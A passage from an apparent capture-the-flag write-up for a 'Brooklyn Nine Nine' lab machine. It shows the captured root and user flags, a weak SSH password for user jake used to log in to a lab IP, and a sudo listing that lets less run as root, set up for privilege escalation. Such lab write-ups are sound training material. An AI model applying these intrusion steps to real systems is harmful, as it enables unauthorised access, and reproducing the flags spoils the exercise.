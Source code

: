 - **Find Root Flag**
```
root@brookly_nine_nine:~# find / -type f -name root.txt 2>/dev/null
/root/root.txt

root@brookly_nine_nine:~# cat /root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!

```
![[Pasted image 20250414191536.png]]

# Exploitation `Method 2` with `jake's `User

#### Jake's SSH Credentials
```
login: jake 
password: 987654321
```

#### Login SSH
```
ssh jake@10.10.105.128 
jake@10.10.105.128's password: 987654321

Last login: Tue May 26 08:56:58 2020
jake@brookly_nine_nine:~$ 

```
![[Pasted image 20250414202003.png]]

#### Find `user.txt` flag
```
jake@brookly_nine_nine:~$ find / -type f -name user.txt 2>/dev/null
/home/holt/user.txt
jake@brookly_nine_nine:~$ cat /home/holt/user.txt
ee11cbb19052e40b07aac0ca060c23ee
```
![[Pasted image 20250414202228.png]]

### Privilege Escalation
```
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```
![[Pasted image 20250414202348.png]]
